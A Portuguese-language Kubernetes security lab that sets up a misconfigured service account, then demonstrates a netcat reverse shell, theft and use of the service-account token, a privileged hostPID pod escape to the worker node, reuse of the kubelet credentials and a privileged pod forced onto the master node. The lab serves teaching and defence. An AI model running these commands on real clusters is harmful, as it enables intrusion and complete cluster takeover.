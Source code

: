 # Kubernetes é seguro por default ou à prova de má configuração?

# Lab + explicação:

Para nosso montar nosso lab vamos precisar de um cluster kubernetes, pode ser minikube ou kind.

**Não executar esse lab em um cluster produtivo** 

Primeiro vamos criar nosso namespace, pod, service account e roles:

```
kubectl create ns production

kubectl create sa web-app-sa -n production

kubectl create role web-app-role -n production --verb=get,list,create --resource=pods,pods/exec

kubectl create rolebinding binding-role-app --serviceaccount=production:web-app-sa --role=web-app-role -n production

kubectl run web-app --image=p0ssuidao/vulne-pod-lab:01 --serviceaccount=web-app-role -n production

kubectl expose pod -n production web-app --port=8080 --target-port=8080 --type=NodePort --name=web-app-role

```

```
kubectl get no -o wide 
kubectl get svc -n production 
```
Agora basta acessar no seu navegador IP do node + Node port

User foo 
Pass bar

Agora vamos abrir a porta 32000 para receber a conexão:
```
sudo nc  -l 32000
```

Executar no terminal remoto para ganhar acesso a shell:
```
nc -e /bin/bash "IP da sua maquina" 32000
```

Primeiro identificarmos com qual usuário estamos logados:
```
id
```
A aplicação está rodando com o usuário appuser, então vamos ver quais processos estão em execução.

```
ps aux
```

Existe um número muito baixo de processos. Ter poucos processos é o primeiro indicativo que a aplicação é em um container. Por default um container roda com o usuário root mas isso pode ser alterado.
Levantaremos informações sobre o release do S.O.
```
uname -a ; cat /etc/*-release
```

Aqui há informações como a linha da distribuição GNU/Linux e versão do Kernel. Com isso já pode se iniciar a busca por exploits para a versão de kernel e baseados na distro.
Continuando a busca, listaremos as variáveis de ambiente.

```
env
```

Vamos continuar o reconhecimento para termos certeza que estamos rodando em um container. Para isso vamos utilizar a ferramenta “amicontained”, pois com ela conseguimos uma serie de informações como:

- Container Runtime.
- Existência de namespace.
- Capabilities.
- Syscalls liberadas.

```
cd /tmp; curl -fSL "https://github.com/genuinetools/amicontained/releases/download/v0.4.9/amicontained-linux-amd64" -o "amicontained" \
 && chmod a+x "amicontained" \
 && ./amicontained
```

Todo pod, deploy e rs possui uma serviceaccount e por padrão são executados com a conta default. Uma serviceaccount fornece uma identidade para processos executados em um pod e nela são atrelado as rules de permissão.
As chaves e certificados ficam em um volume montado no pod.

```
cd /var/run/secrets/kubernetes.io/serviceaccount
```

Primeiro vamos ver a versão do cluster e se conseguimos interagir com a API.
```
curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/version
```

Já que conseguimos acesso a API com esse token vamos tentar listar alguns pods, de inicio vamos tentar listar no namespace em que estamos:
```
TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
NS=$(cat /var/run/secrets/kubernetes.io/serviceaccount/namespace)

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api --header "Authorization: Bearer $TOKEN" --insecure

curl -k https://${KUBERNETES_SERVICE_HOST}:${KUBERNETES_SERVICE_PORT}/api/v1/namespaces/$NS/pods/ --header "Authorization: Bearer $TOKEN" --insecure
```
Conseguimos listar os pods e isso é muito interessante. Para facilitar um pouco as coisas vamos baixar o kubectl para interagir com o cluster.
```
cd /tmp ; curl -LO https://storage.googleapis.com/kubernetes-release/release/v1.18.0/bin/linux/amd64/kubectl ; chmod +x ./kubectl
```
Listaremos os pods com o kubectl.
```
./kubectl get pod
```
Para testar nossos acessos vamos utilizar o "kubectl auth can-i"
```
./kubectl auth can-i --list

./kubectl auth can-i create pods
```

Agora vamos tentar escalar nosso privilegio sem utilizar nenhum exploit apenas conhecimento da ferramenta.

```
cd /tmp; cat > root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: root-shell
  name: root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
EOF
./kubectl apply -f root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it root-shell -- bash

```
Conseguimos acesso uma máquina !  

Verificando os acessos: 

```
id

ps aux

docker ps

cat /etc/hostname

```
Nosso acesso é a um worker mas queremos chegar nos master, para isso será necessário informações sobre os demais nodes.

Como vimos nossa conta não possui permissão para listar os nodes, então vamos procurar um conta que consiga listar os nodes.
Lembrando dos componentes que fazem parte do node o kubelet possui permissão para verificar os nós ativos, vamos tentar utilizar sua configuração de autenticação para listarmos os nodes:

Vamos pegar suas config com:

```
systemctl status kubelet
```

Com a config do kubelet tentaremos listar os nodes usando o parametro --kubeconfig:

```
kubectl get no --kubeconfig=/etc/kubernetes/kubelet.conf
```

Conseguimos ! 

Agora vamos forçar o scheduler nos agendar no node master.
Mas primeiro precisamos voltar para nosso container com permissão de criação de pods.

```
exit
```

- **Nome do node Master** | Substituir pelo nome do seu nó em yml abaixo.

```
cd /tmp; cat > master-root-shell.yml <<EOF
apiVersion: v1
kind: Pod
metadata:
  labels:
    run: master-root-shell
  name: master-root-shell
spec:
  containers:
  - command:
    - nsenter
    - --mount=/proc/1/ns/mnt
    - --
    - /bin/bash
    image: alpine
    imagePullPolicy: IfNotPresent
    name: "master-root-shell"
    securityContext:
      privileged: true
    stdin: true
    tty: true
  dnsPolicy: ClusterFirst
  hostPID: true
  nodeName: *Nome do node Master* 
  tolerations:
  - effect: NoExecute
    operator: Exists
EOF
./kubectl apply -f master-root-shell.yml
sleep 10
./kubectl get pods
sleep 10
./kubectl exec -it master-root-shell -- bash
```

Conseguimos acesso ao master =)
```
id

ps aux

docker ps

kubectl get no

kubectl auth can-i --list
``` 
